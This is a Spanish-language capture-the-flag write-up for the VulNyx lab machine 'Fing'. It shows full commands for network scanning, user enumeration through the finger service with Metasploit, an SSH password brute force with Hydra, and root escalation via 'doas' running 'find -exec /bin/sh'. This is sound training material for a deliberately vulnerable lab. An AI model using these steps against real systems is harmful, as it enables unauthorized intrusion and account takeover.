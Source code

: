 ```yaml
---
Nombre de la máquina: Fing
Sistema Operativo: Linux
Enlace de descarga: https://vulnyx.com/
---
```


## Escaneo de equipos de la red.

Una vez que hemos descargado la máquina y la hemos levantado en nuestro virtualizador, procedemos a buscarla utilizando la herramienta ARP-SCAN.
```
sudo arp-scan -I (NUESTRA INTERFAZ) --localnet
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/cc792507-e35e-4d23-a315-86612237ff7e)

Nos percatamos de que después de la dirección MAC, el escaneo con ARP-SCAN identifica el dispositivo como 'VMware'. Para confirmarlo, podríamos realizar un ping para verificar la conexión y su TTL.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/eb6f7ab9-0473-4fb1-9018-bec0e316b4b3)


## Nmap.

Una vez que hemos identificado claramente la IP objetivo, es el momento de realizar el escaneo con Nmap.
```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.105
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/01ebda0f-42f4-4834-b556-48c121ee84bf)

Como podemos observar, el escaneo de puertos revela que hay 3 puertos abiertos: 22/SSH, 79/Finger y 80/HTTP. Siguiendo el procedimiento habitual, lo primero que haremos es revisar la aplicación web que se está ejecutando en el puerto 80.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/821b6b76-6410-484a-8bf4-d7f39b1440db)

Dado que se trata de un servidor Apache por defecto, procederemos a buscar directorios, en caso de que los haya.

## Fuzzing.

```
gobuster dir -u http://192.168.1.105 -w (DICCIONARIO)
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/790ff582-ba3a-441d-aec7-5b2f88f3c782)

Como vemos, la herramienta Gobuster no nos encuentra nada interesante, por lo que podríamos ponernos en la búsqueda de subdirectorios. Aunque primero vamos a revisar el servicio del puerto 79 que nos encontró el escaneo con Nmap: Finger.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/fccd9f50-b88e-4b60-a05f-2258fad848ce)
![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/0fd5efe5-b008-4e25-92f8-e0793d775a87)

Encontramos que existen módulos en Metasploit disponibles para ese servicio.

## Metasploit.

Ejecutamos Metasploit y buscamos un módulo con la palabra 'finger'.

```
msfconsole
```
```
search finger
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/9e9f5a1f-fb23-4c1d-9343-f23d5f2c4ccd)

Como observamos, con el módulo número 1 podemos listar usuarios, por lo que procedemos a configurarlo y ejecutarlo.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/f5cc909a-89c7-4939-8899-debd586ac97f)

Después de configurar el exploit, estableciendo la IP objetivo y el diccionario que utilizamos para el ataque con nombres de usuarios, nos indica que hay un usuario llamado 'adam'. Rápidamente, probamos sin éxito el módulo de ataques de fuerza bruta al protocolo SSH, por lo que continuamos con la herramienta Hydra.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/60bebce6-9903-4aaa-b9e2-0f8c40f9f670)

## Hydra.

Atacamos con Hydra indicando el usuario, el diccionario que utilizaremos y el protocolo que vamos a atacar.
```
sudo hydra -l adam -P DICCIONARIO ssh://192.168.1.105
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/f26d8fd3-dd24-4a9a-89d0-1f6884443d26)

Hydra descubre la contraseña "passion", permitiéndonos así conectar por SSH.

## Escalada de privilegios.

Una vez conectados por SSH con el usuario adam, lo primero que probamos son los comandos habituales o estándar:
```
sudo -l
```
```
find / -perm -4000 2</dev/null
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/7c596878-a73b-4511-af43-0c1473cb4b64)

Dentro de los binarios no encontramos nada destacable, excepto el binario DOAS. Por lo tanto, procedemos a descargar y utilizar la herramienta "linpeas.sh" para mayor seguridad.

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/0e16e493-2b1c-4da1-afdc-f02e4f300f31)

Como observamos en el resultado del escaneo con linpeas, nuevamente resalta el binario DOAS y el chequeo del archivo doas.conf. Básicamente, nos indica que podemos ejecutar el binario FIND como root. Por lo tanto, procedemos a buscar más información sobre DOAS.

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/bcb0c51a-2be9-4aa6-894b-b2d00ceac5dc)

Finalmente, sabiendo que podemos ejecutar FIND como root, vamos a https://gtfobins.github.io/#find para explorar las opciones que tenemos para escalar privilegios con dicho binario.

```
find . -exec /bin/sh \; -quit
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/6f16b0dd-cd6c-42ca-8299-3076417ea9db)

Colocamos el comando encontrado en GTFObins, especificando que lo ejecutaremos con el comando DOAS y utilizando el usuario ROOT, tambien colocando la ruta absoluta del binario.

```
doas -u root /usr/bin/find . -exec /bin/sh \; -quit
```

![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/bde0fc3d-b6b8-4e4f-a3cd-3505afd80fef)

Y como podemos observar, ahora somos el usuario root.

## Flags. 
![image](https://github.com/Cesmendaro/vulnyx/assets/153618246/640e0005-326b-46a8-b44b-3875fe2b22e0)
